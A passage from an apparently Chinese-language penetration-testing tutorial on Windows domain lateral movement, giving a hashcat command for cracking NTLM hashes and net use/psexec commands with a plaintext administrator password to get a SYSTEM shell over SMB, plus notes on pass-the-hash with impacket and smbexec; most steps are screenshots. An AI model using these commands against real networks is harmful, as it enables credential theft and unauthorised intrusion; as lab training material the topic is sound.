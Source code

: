 

Hashcat破解获取Windows NTML Hash

- 

```
hashcat -a 0 -m 1000 file --force
```



**案例2-域横向移动SMB服务利用-psexec,smbexec(官方自带)**

  利用SMB服务可以通过明文或hash传递来远程执行,条件445服务端口开放。

  \#psexec第一种:先有ipc链接,psexec需要明文或hash传递

​    net use \\192.168.3.32\ipc$ "admin!@#45" /user:administrator

​    psexec \\102.168.3.32 -s cmd #需要先有ipc链接 -s以system权限运行



![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJ8AUVTLdJmkNc0XiauP1hCm2WMpa6iczIs5UDMoc7kuKDEictA7MkmCMibksW1uY7UK26unhK7UHuLicdg/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)



\#psexec第二种:不用建立IPC直接提供明文账户密码

官方Pstools无法采用hash连接

![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJ8AUVTLdJmkNc0XiauP1hCm2keuO7nqLE0c4eLyepH4VTiaJNprQx3GCvibjkQvbEXbwhWZNTdWwNxog/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)

在官网下载pstools,上传至目标主机

![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJ8AUVTLdJmkNc0XiauP1hCm2ol5g4BglQThQ3lbzXmeSiaAc4xtS3Ogdaq39DHSrx4WndFNfcDXGJTQ/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)

  

  执行命令,将前期信息收集到的ip地址,用户名 ,密码,反弹回cmd

基于Hash的:

![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJ8AUVTLdJmkNc0XiauP1hCm21tqFwibZibo5QxvcMvmzL3R0iaw2OiaEHmkTOR90vNKvZgAcXcnNEj6ogQ/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)



执行时出现了问题,解决需要用到一个非官方的库impacket

![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJ8AUVTLdJmkNc0XiauP1hCm2WT3CbDia6EJxEcUUsav13ISDnR1QAvSexUcNRCx1r1iaFYw8ZE1JlPqw/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)

  反弹成功



**#smbexec无需先ipc链接 明文或哈市传递**

![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJ8AUVTLdJmkNc0XiauP1hCm2vsaibEyMKgib8czicsSkeXPkOVGDibFhFH5mb4FOAAyic1GicmtZN4icWGd8A/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)

![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJ8AUVTLdJmkNc0XiauP1hCm2qCGPSltSNRHo55NDccUtQ8cD8Q2hb5EiaiaFibRNuG4CJEE2siaLn1ic4icA/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)



![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJ8AUVTLdJmkNc0XiauP1hCm2hicWynRu5AO11RicH9BSBDFPpg7uzswYxIljhJwS4JrXQBEsqua54OicA/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)
